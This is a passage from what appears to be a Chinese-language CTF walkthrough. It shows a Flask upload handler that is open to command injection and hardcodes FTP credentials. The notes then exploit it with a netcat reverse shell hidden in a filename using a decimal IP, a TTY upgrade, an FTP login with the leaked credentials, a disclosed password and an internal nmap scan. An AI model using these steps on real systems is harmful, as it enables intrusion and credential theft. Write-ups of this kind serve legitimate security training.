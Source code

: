 ```python
			
			file.save(os.path.join(UPLOAD_FOLDER, filename))
			cmd="cat "+UPLOAD_FOLDER+"/"+filename
			result = subprocess.check_output(cmd, shell=True)
			flash(result.decode("utf-8"))
			flash('File successfully uploaded')
			
			try:
			   ftp = FTP('ftp.mofo.pwn')
			   ftp.login('someuser', 'b232a4da4c104798be4613ab76d26efda1a04606')
			   with open(UPLOAD_FOLDER+"/"+filename, 'rb') as f:
			      ftp.storlines('STOR %s' % filename, f)
			      ftp.quit()
			except:
			   flash("Cannot connect to FTP-server")
			return redirect('/upload')

		else:
			flash('Allowed file types are txt and rtf')
			return redirect(request.url)


if __name__ == "__main__":
    app.run()
```

尝试反弹shell，由于`.`用来判断文件类型，将ip地址转为10进制,环境是有nc的
`nc 3232235905 23456 -e bash`

![](attachments/Pasted%20image%2020230303111619.png)

拿到shell，做一个tty
`python -c "import pty;pty.spawn('/bin/bash')"`

![](attachments/Pasted%20image%2020230303111910.png)

查找main.py 的ftp服务
`ls /usr/bin | grep ftp`
利用之前代码中的用户名密码登录FTP服务
`lftp someuser@ftp.mofo.pwn`

![](attachments/Pasted%20image%2020230303135822.png)

查看cmscreds.txt

![](attachments/Pasted%20image%2020230303135918.png)

`hardEnough4u`

利用这台机器开始扫描内网，下载一个nmap `add apk nmap`
内网ip为172.19.0.10，nmap扫描网段

![](attachments/Pasted%20image%2020230303162353.png)
